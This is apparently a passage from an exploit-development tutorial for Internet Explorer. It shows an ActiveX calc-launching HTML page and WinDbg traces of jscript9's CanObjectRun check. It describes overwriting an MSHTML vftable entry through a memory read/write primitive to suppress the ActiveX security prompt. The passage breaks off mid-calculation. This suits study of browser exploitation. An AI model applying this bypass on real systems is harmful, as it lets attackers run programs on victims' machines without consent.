








When an html page tries to load and run an ActiveX object in IE, the user is alerted with a dialog box. For instance, create an html file with the following code:
<html>
<head>
<script language="javascript">
shell = new ActiveXObject("WScript.shell");
shell.Exec('calc.exe');
</script>
</head>
<body>
</body>
</html>
If you open this file in IE, you should get the following dialog box:

If we activate the so-called God Mode, IE runs the ActiveX object without asking for the user’s permission. Basically, we’ll just use our ability to read and write where we want to alter the behavior of IE.
{kind=link}
But what’s so interesting in popping up a calculator? That’s a valid demonstration for general shellcode because it proves that we can run arbitrary code, but here we’ve just proved that we can execute any program which resides on the user’s hard disk. We’d like to execute arbitrary code, instead.
One solution is to create an .exe file containing code and data of our choosing and then execute it. But for now, let’s try to bypass the dialog box when executing the code above.
Bypassing the dialog box
The dialog box displayed when the code above is run looks like a regular Windows dialog box, so it’s likely that IE uses the Windows API to create it. Let’s search for msdn dialog box with google. The first result is this link:
https://msdn.microsoft.com/en-us/library/windows/desktop/ms645452%28v=vs.85%29.aspx
As you can see in the following picture, there are a few functions used to create dialog boxes:

By reading the Remarks section we discover that DialogBox calls CreateWindowEx:
{kind=link}

When we look at the other functions used to create dialog boxes, we find out that they also call CreateWindowEx, so we should put a breakpoint on CreateWindowEx.
{kind=link}
First of all, we load the html page above in IE and, before allowing the blocked content (IE asks for a confirmation when you open local html files), we put a breakpoint on CreateWindowEx (both the ASCII and the Unicode version) in WinDbg:
0:016> bp createwindowexw 0:016> bp createwindowexa
Then, when we allow the blocked content, the breakpoint on CreateWindowExW is triggered. Here’s the stack trace:
0:007> k 20 ChildEBP RetAddr 042bae7c 738d4467 user32!CreateWindowExW 042baebc 6eeee9fa IEShims!NS_HangResistanceInternal::APIHook_CreateWindowExW+0x64 042baefc 6efb9759 IEFRAME!SHFusionCreateWindowEx+0x47 042bb058 6efb951e IEFRAME!CBrowserFrameState::FindTabIDFromRootThreadID+0x13b 042bb0a4 6efb9409 IEFRAME!UnifiedFrameAware_AcquireModalDialogLockAndParent+0xe9 042bb0c4 738e8c5c IEFRAME!TabWindowExports::AcquireModalDialogLockAndParent+0x1b 042bb0e0 74e7f0c8 IEShims!NS_UISuppression::APIHook_DialogBoxParamW+0x31 042bb910 74e9efe0 urlmon!CSecurityManager::DisplayMessage+0x40 042bbcb4 74dff5d4 urlmon!memset+0x120a0 042bbcf8 6e2a84dc urlmon!CSecurityManager::ProcessUrlActionEx2+0x15f 042bbd6c 6e2a81ae MSHTML!CMarkup::ProcessURLAction2+0x31d 042bbd9c 6ecf7868 MSHTML!CMarkup::ProcessURLAction+0x3e 042bbe28 6e24d87d MSHTML!memcpy+0x120f00 042bbe6c 04d5c12d MSHTML!CDocument::HostQueryCustomPolicy+0x148 042bbee4 04d5bfae jscript9!ScriptEngine::CanObjectRun+0x78 <-------------------- 042bbf30 04d5bde1 jscript9!ScriptSite::CreateObjectFromProgID+0xdf <-------------------- 042bbf74 04d5bd69 jscript9!ScriptSite::CreateActiveXObject+0x56 <-------------------- 042bbfa8 04cc25d5 jscript9!JavascriptActiveXObject::NewInstance+0x90 042bc000 04cc272e jscript9!Js::InterpreterStackFrame::NewScObject_Helper+0xd6 042bc194 04c95cf5 jscript9!Js::InterpreterStackFrame::Process+0x2c6d 042bc29c 034b0fe9 jscript9!Js::InterpreterStackFrame::InterpreterThunk<1>+0x305 WARNING: Frame IP not in any known module. Following frames may be wrong. 042bc2a8 04c91f60 0x34b0fe9 042bc328 04c920ca jscript9!Js::JavascriptFunction::CallRootFunction+0x140 042bc340 04c9209f jscript9!Js::JavascriptFunction::CallRootFunction+0x19 042bc388 04c92027 jscript9!ScriptSite::CallRootFunction+0x40 042bc3b0 04d3df75 jscript9!ScriptSite::Execute+0x61 042bc43c 04d3db57 jscript9!ScriptEngine::ExecutePendingScripts+0x1e9 042bc4c4 04d3e0b7 jscript9!ScriptEngine::ParseScriptTextCore+0x2ad 042bc518 6e37b60c jscript9!ScriptEngine::ParseScriptText+0x5b 042bc550 6e37945d MSHTML!CActiveScriptHolder::ParseScriptText+0x42 042bc5a0 6e36b52f MSHTML!CJScript9Holder::ParseScriptText+0x58 042bc614 6e37c6a4 MSHTML!CScriptCollection::ParseScriptText+0x1f0
Three lines look particularly interesting:
042bbee4 04d5bfae jscript9!ScriptEngine::CanObjectRun+0x78 <-------------------- 042bbf30 04d5bde1 jscript9!ScriptSite::CreateObjectFromProgID+0xdf <-------------------- 042bbf74 04d5bd69 jscript9!ScriptSite::CreateActiveXObject+0x56 <--------------------
Maybe the function CanObjectRun decides if the ActiveX object can run? Let’s delete the previous breakpoints and put a breakpoint on jscript9!ScriptSite::CreateActiveXObject:
bp jscript9!ScriptSite::CreateActiveXObject
When we reload the html page and allow the blocked content in IE, we break on CreateActiveXObject. Here’s the code:
jscript9!ScriptSite::CreateActiveXObject: 04eebd8b 6a18 push 18h 04eebd8d b81927eb04 mov eax,offset jscript9!memset+0x2ac2 (04eb2719) 04eebd92 e88752f2ff call jscript9!_EH_epilog3_GS (04e1101e) 04eebd97 837d1000 cmp dword ptr [ebp+10h],0 04eebd9b 8b5d08 mov ebx,dword ptr [ebp+8] 04eebd9e 8b5b54 mov ebx,dword ptr [ebx+54h] 04eebda1 0f8571721600 jne jscript9!memset+0xf9c1 (05053018) 04eebda7 8bcb mov ecx,ebx 04eebda9 8d75e8 lea esi,[ebp-18h] 04eebdac e8f4feffff call jscript9!AutoLeaveScriptPtr<IDispatch>::AutoLeaveScriptPtr<IDispatch> (04eebca5) 04eebdb1 8365fc00 and dword ptr [ebp-4],0 04eebdb5 8365f000 and dword ptr [ebp-10h],0 ss:002b:0446ba64=0446ba70 04eebdb9 896df0 mov dword ptr [ebp-10h],ebp 04eebdbc 8d45dc lea eax,[ebp-24h] 04eebdbf 50 push eax 04eebdc0 8b45f0 mov eax,dword ptr [ebp-10h] 04eebdc3 8bcb mov ecx,ebx 04eebdc5 e87faaf9ff call jscript9!Js::LeaveScriptObject<1,1>::LeaveScriptObject<1,1> (04e86849) 04eebdca 8b4d0c mov ecx,dword ptr [ebp+0Ch] 04eebdcd 8bc6 mov eax,esi 04eebdcf c645fc01 mov byte ptr [ebp-4],1 04eebdd3 8b7508 mov esi,dword ptr [ebp+8] 04eebdd6 50 push eax 04eebdd7 ff7510 push dword ptr [ebp+10h] 04eebdda 8bd6 mov edx,esi 04eebddc e8ea000000 call jscript9!ScriptSite::CreateObjectFromProgID (04eebecb) <--------------- 04eebde1 c645fc00 mov byte ptr [ebp-4],0 04eebde5 807de400 cmp byte ptr [ebp-1Ch],0 04eebde9 8bf8 mov edi,eax
If we step inside jscript9!ScriptSite::CreateObjectFromProgID we see the following code:
jscript9!ScriptSite::CreateObjectFromProgID: 04eebecb 8bff mov edi,edi 04eebecd 55 push ebp 04eebece 8bec mov ebp,esp 04eebed0 83ec34 sub esp,34h 04eebed3 a144630a05 mov eax,dword ptr [jscript9!__security_cookie (050a6344)] 04eebed8 33c5 xor eax,ebp 04eebeda 8945fc mov dword ptr [ebp-4],eax 04eebedd 53 push ebx 04eebede 8b5d0c mov ebx,dword ptr [ebp+0Ch] 04eebee1 56 push esi 04eebee2 33c0 xor eax,eax 04eebee4 57 push edi 04eebee5 8b7d08 mov edi,dword ptr [ebp+8] 04eebee8 8bf2 mov esi,edx 04eebeea 8975dc mov dword ptr [ebp-24h],esi 04eebeed 8945cc mov dword ptr [ebp-34h],eax 04eebef0 897dd0 mov dword ptr [ebp-30h],edi 04eebef3 8945d4 mov dword ptr [ebp-2Ch],eax 04eebef6 8945d8 mov dword ptr [ebp-28h],eax 04eebef9 8945e8 mov dword ptr [ebp-18h],eax 04eebefc 85ff test edi,edi 04eebefe 0f85e26a1600 jne jscript9!memset+0xf390 (050529e6) 04eebf04 8b4604 mov eax,dword ptr [esi+4] 04eebf07 e8d5000000 call jscript9!ScriptEngine::InSafeMode (04eebfe1) 04eebf0c 85c0 test eax,eax 04eebf0e 8d45ec lea eax,[ebp-14h] 04eebf11 50 push eax 04eebf12 51 push ecx 04eebf13 0f84d86a1600 je jscript9!memset+0xf39b (050529f1) 04eebf19 ff1508400905 call dword ptr [jscript9!_imp__CLSIDFromProgID (05094008)] 04eebf1f 85c0 test eax,eax 04eebf21 0f88e867fcff js jscript9!ScriptSite::CreateObjectFromProgID+0xf6 (04eb270f) 04eebf27 8d45ec lea eax,[ebp-14h] 04eebf2a 50 push eax 04eebf2b 8b4604 mov eax,dword ptr [esi+4] 04eebf2e e8e2030000 call jscript9!ScriptEngine::CanCreateObject (04eec315) <----------------------- 04eebf33 85c0 test eax,eax 04eebf35 0f84d467fcff je jscript9!ScriptSite::CreateObjectFromProgID+0xf6 (04eb270f)
If we keep stepping through the code, we get to jscript9!ScriptEngine::CanCreateObject. This function also looks interesting. For now, let’s note that it returns 1 (i.e. EAX = 1) in this case. We continue to step through the code:
04eebf3b 6a05 push 5
04eebf3d 58 pop eax
04eebf3e 85ff test edi,edi
04eebf40 0f85b66a1600 jne jscript9!memset+0xf3a6 (050529fc)
04eebf46 8d4de4 lea ecx,[ebp-1Ch]
04eebf49 51 push ecx
04eebf4a 68ac0fec04 push offset jscript9!IID_IClassFactory (04ec0fac)
04eebf4f ff75e8 push dword ptr [ebp-18h]
04eebf52 50 push eax
04eebf53 8d45ec lea eax,[ebp-14h]
04eebf56 50 push eax
04eebf57 ff1504400905 call dword ptr [jscript9!_imp__CoGetClassObject (05094004)]
04eebf5d 85c0 test eax,eax
04eebf5f 0f88aa67fcff js jscript9!ScriptSite::CreateObjectFromProgID+0xf6 (04eb270f)
04eebf65 8b45e4 mov eax,dword ptr [ebp-1Ch]
04eebf68 8b08 mov ecx,dword ptr [eax]
04eebf6a 8d55e0 lea edx,[ebp-20h]
04eebf6d 52 push edx
04eebf6e 68ccbfee04 push offset jscript9!IID_IClassFactoryEx (04eebfcc)
04eebf73 50 push eax
04eebf74 ff11 call dword ptr [ecx] ds:002b:040725f8={wshom!CClassFactory::QueryInterface (04080554)}
04eebf76 85c0 test eax,eax
04eebf78 8b45e4 mov eax,dword ptr [ebp-1Ch]
04eebf7b 8b08 mov ecx,dword ptr [eax]
04eebf7d 0f89a76a1600 jns jscript9!memset+0xf3d4 (05052a2a)
04eebf83 53 push ebx
04eebf84 681c13e104 push offset jscript9!IID_IUnknown (04e1131c)
04eebf89 6a00 push 0
04eebf8b 50 push eax
04eebf8c ff510c call dword ptr [ecx+0Ch] ds:002b:04072604={wshom!CClassFactory::CreateInstance (04080613)}
04eebf8f 8bf0 mov esi,eax
04eebf91 8b45e4 mov eax,dword ptr [ebp-1Ch]
04eebf94 8b08 mov ecx,dword ptr [eax]
04eebf96 50 push eax
04eebf97 ff5108 call dword ptr [ecx+8] ds:002b:04072600={wshom!CClassFactory::Release (04080909)}
04eebf9a 85f6 test esi,esi
04eebf9c 7818 js jscript9!ScriptSite::CreateObjectFromProgID+0xe3 (04eebfb6)
04eebf9e 8b4ddc mov ecx,dword ptr [ebp-24h]
04eebfa1 ff33 push dword ptr [ebx]
04eebfa3 8b4904 mov ecx,dword ptr [ecx+4]
04eebfa6 8d55ec lea edx,[ebp-14h]
04eebfa9 e807010000 call jscript9!ScriptEngine::CanObjectRun (04eec0b5) <----------------------
04eebfae 85c0 test eax,eax
04eebfb0 0f8467a90800 je jscript9!ScriptSite::CreateObjectFromProgID+0xfd (04f7691d) <---------------
04eebfb6 8b4dfc mov ecx,dword ptr [ebp-4]
04eebfb9 5f pop edi
04eebfba 8bc6 mov eax,esi
04eebfbc 5e pop esi
04eebfbd 33cd xor ecx,ebp
04eebfbf 5b pop ebx
04eebfc0 e87953f2ff call jscript9!__security_check_cookie (04e1133e)
04eebfc5 c9 leave
04eebfc6 c20800 ret 8Finally, we get to jscript9!ScriptEngine::CanObjectRun. When we step over it, the familiar dialog box pops up:
Let’s click on Yes and go back in WinDbg. We can see that CanObjectRun returned 1 (i.e EAX = 1). This means that the je at 04eebfb0 is not taken and CreateObjectFromProgID returns. We can see that the calculator pops up.
Now let’s put a breakpoint right at 04eebfae, reload the page in IE and let’s see what happens if we click on No when the dialog box appears. Now EAX is 0 and je is taken. If we resume the execution, we can see that the calculator doesn’t pop up this time.
So, if we want to bypass the dialog box, we must force CanObjectRun to return true (i.e. EAX != 0). Unfortunately, we can’t modify the code because it resides on read-only pages. We’ll need to think of something else.
Let’s put a breakpoint on jscript9!ScriptEngine::CanObjectRun and reload the page in IE. This time, we’re stepping inside CanObjectRun:
jscript9!ScriptEngine::CanObjectRun:
04eec0b5 8bff mov edi,edi
04eec0b7 55 push ebp
04eec0b8 8bec mov ebp,esp
04eec0ba 83ec48 sub esp,48h
04eec0bd a144630a05 mov eax,dword ptr [jscript9!__security_cookie (050a6344)]
04eec0c2 33c5 xor eax,ebp
04eec0c4 8945f8 mov dword ptr [ebp-8],eax
04eec0c7 53 push ebx
04eec0c8 8b5d08 mov ebx,dword ptr [ebp+8]
04eec0cb 56 push esi
04eec0cc 57 push edi
04eec0cd 8bf9 mov edi,ecx
04eec0cf 8bf2 mov esi,edx
04eec0d1 8bc7 mov eax,edi
04eec0d3 8975cc mov dword ptr [ebp-34h],esi
04eec0d6 e806ffffff call jscript9!ScriptEngine::InSafeMode (04eebfe1)
04eec0db 85c0 test eax,eax
04eec0dd 0f844e581600 je jscript9!memset+0xe3b4 (05051931)
04eec0e3 f687e401000008 test byte ptr [edi+1E4h],8
04eec0ea 0f8450581600 je jscript9!memset+0xe3c3 (05051940)
04eec0f0 8d45bc lea eax,[ebp-44h]
04eec0f3 50 push eax
04eec0f4 e87a020000 call jscript9!ScriptEngine::GetSiteHostSecurityManagerNoRef (04eec373)
04eec0f9 85c0 test eax,eax
04eec0fb 0f8838581600 js jscript9!memset+0xe3bc (05051939)
04eec101 8b45bc mov eax,dword ptr [ebp-44h]
04eec104 8d7dd0 lea edi,[ebp-30h]
04eec107 a5 movs dword ptr es:[edi],dword ptr [esi]
04eec108 a5 movs dword ptr es:[edi],dword ptr [esi]
04eec109 a5 movs dword ptr es:[edi],dword ptr [esi]
04eec10a a5 movs dword ptr es:[edi],dword ptr [esi]
04eec10b 895de0 mov dword ptr [ebp-20h],ebx
04eec10e 33db xor ebx,ebx
04eec110 53 push ebx
04eec111 6a18 push 18h
04eec113 8d55d0 lea edx,[ebp-30h]
04eec116 52 push edx
04eec117 8d55cc lea edx,[ebp-34h]
04eec11a 52 push edx
04eec11b 8d55c0 lea edx,[ebp-40h]
04eec11e 52 push edx
04eec11f 6868c1ee04 push offset jscript9!GUID_CUSTOM_CONFIRMOBJECTSAFETY (04eec168)
04eec124 895de4 mov dword ptr [ebp-1Ch],ebx
04eec127 8b08 mov ecx,dword ptr [eax]
04eec129 50 push eax
04eec12a ff5114 call dword ptr [ecx+14h] ds:002b:6ed255f4={MSHTML!TearoffThunk5 (6e1dafe5)} <--------------------------
04eec12d 85c0 test eax,eax
04eec12f 0f8804581600 js jscript9!memset+0xe3bc (05051939)
04eec135 8b45c0 mov eax,dword ptr [ebp-40h]
04eec138 6a03 push 3When we step over the call at 04eec12a, the familiar dialog box pops up. Let’s keep stepping:
04eec13a 5b pop ebx 04eec13b 85c0 test eax,eax 04eec13d 740f je jscript9!ScriptEngine::CanObjectRun+0x99 (04eec14e) 04eec13f 837dcc04 cmp dword ptr [ebp-34h],4 04eec143 7202 jb jscript9!ScriptEngine::CanObjectRun+0x92 (04eec147) 04eec145 8b18 mov ebx,dword ptr [eax] 04eec147 50 push eax 04eec148 ff151c400905 call dword ptr [jscript9!_imp__CoTaskMemFree (0509401c)] 04eec14e 6a00 push 0 04eec150 f6c30f test bl,0Fh 04eec153 58 pop eax 04eec154 0f94c0 sete al 04eec157 8b4df8 mov ecx,dword ptr [ebp-8] 04eec15a 5f pop edi 04eec15b 5e pop esi 04eec15c 33cd xor ecx,ebp 04eec15e 5b pop ebx 04eec15f e8da51f2ff call jscript9!__security_check_cookie (04e1133e) 04eec164 c9 leave 04eec165 c20400 ret 4
Finally, CanObjectRun returns.
Let’s look again at the following three lines of code:
04eec127 8b08 mov ecx,dword ptr [eax] ; ecx = vftable pointer
04eec129 50 push eax
04eec12a ff5114 call dword ptr [ecx+14h] ds:002b:6ed255f4={MSHTML!TearoffThunk5 (6e1dafe5)}It’s pretty clear that the first line reads the vftable pointer from the first dword of the object pointed to by eax and that, finally, the third instruction calls the 6th virtual function (offset 14h) in the vftable. Since all vftables are located at fixed RVAs, we can locate and modify this vftable so that we can call whetever code we want.
Right before the call at 04eec12a, eax is clearly non zero, so, if we were to return immediately from CanObjectRun, CanObjectRun would return true. What happens if we overwrite the 6th pointer of the vftable with the value 04eec164?
What happens is that the call at 04eec127 will call the epilog of CanObjectRun so CanObjectRun will end and return true. Everything works correctly because, even if the call at 04eec127 push a ret eip on the stack, the epilog of CanObjectRun will restore esp to the correct value. Remember that leave is equivalent to the following two instructions:
mov esp, ebp pop ebp
Let’s put a breakpoint at 04eec12a, reload the page in IE and, when the breakpoint is triggered, examine the vftable:
0:007> ln ecx
(6ed255e0) MSHTML!s_apfnPlainTearoffVtable | (6ed25ce8) MSHTML!s_apfnEmbeddedDocTearoffVtable
Exact matches:
MSHTML!s_apfnPlainTearoffVtable = <no type information>
0:007> dds ecx
6ed255e0 6e162681 MSHTML!PlainQueryInterface
6ed255e4 6e1625a1 MSHTML!CAPProcessor::AddRef
6ed255e8 6e13609d MSHTML!PlainRelease
6ed255ec 6e128eb5 MSHTML!TearoffThunk3
6ed255f0 6e30604a MSHTML!TearoffThunk4
6ed255f4 6e1dafe5 MSHTML!TearoffThunk5 <----------- we want to overwrite this
6ed255f8 6e1d9a77 MSHTML!TearoffThunk6
6ed255fc 6e2b1a73 MSHTML!TearoffThunk7
6ed25600 6e1d770c MSHTML!TearoffThunk8
6ed25604 6e1db22c MSHTML!TearoffThunk9
6ed25608 6e1db1e3 MSHTML!TearoffThunk10
6ed2560c 6e307db5 MSHTML!TearoffThunk11
6ed25610 6e1db2b8 MSHTML!TearoffThunk12
6ed25614 6e3e2a3d MSHTML!TearoffThunk13
6ed25618 6e2f2719 MSHTML!TearoffThunk14
6ed2561c 6e304879 MSHTML!TearoffThunk15
6ed25620 6e1db637 MSHTML!TearoffThunk16
6ed25624 6e1e1bf3 MSHTML!TearoffThunk17
6ed25628 6e1d9649 MSHTML!TearoffThunk18
6ed2562c 6e558422 MSHTML!TearoffThunk19
6ed25630 6e63bc4a MSHTML!TearoffThunk20
6ed25634 6e1e16d9 MSHTML!TearoffThunk21
6ed25638 6e397b23 MSHTML!TearoffThunk22
6ed2563c 6e2c2734 MSHTML!TearoffThunk23
6ed25640 6e3975ed MSHTML!TearoffThunk24
6ed25644 6e5728c5 MSHTML!TearoffThunk25
6ed25648 6e475a7d MSHTML!TearoffThunk26
6ed2564c 6e456310 MSHTML!TearoffThunk27
6ed25650 6e46ff2d MSHTML!TearoffThunk28
6ed25654 6e45a803 MSHTML!TearoffThunk29
6ed25658 6e47d81a MSHTML!TearoffThunk30
6ed2565c 6e2d3f19 MSHTML!TearoffThunk31Determining the RVA of the vftable is quite easy:
0:007> ? MSHTML!s_apfnPlainTearoffVtable-mshtml Evaluate expression: 12932576 = 00c555e0
Now let’s find the RVA of the epilog at 04eec164:
0:007> !address 04eec164
Mapping file section regions...
Mapping module regions...
Mapping PEB regions...
Mapping TEB and stack regions...
Mapping heap regions...
Mapping page heap regions...
Mapping other regions...
Mapping stack trace database regions...
Mapping activation context regions...
Usage: Image
Base Address: 04e11000
End Address: 05094000
Region Size: 00283000
State: 00001000 MEM_COMMIT
Protect: 00000020 PAGE_EXECUTE_READ
Type: 01000000 MEM_IMAGE
Allocation Base: 04e10000
Allocation Protect: 00000080 PAGE_EXECUTE_WRITECOPY
Image Path: C:\Windows\SysWOW64\jscript9.dll
Module Name: jscript9 <----------------------------------------------
Loaded Image Name: C:\Windows\SysWOW64\jscript9.dll
Mapped Image Name:
More info: lmv m jscript9
More info: !lmi jscript9
More info: ln 0x4eec164
More info: !dh 0x4e10000
0:007> ? 04eec164-jscript9
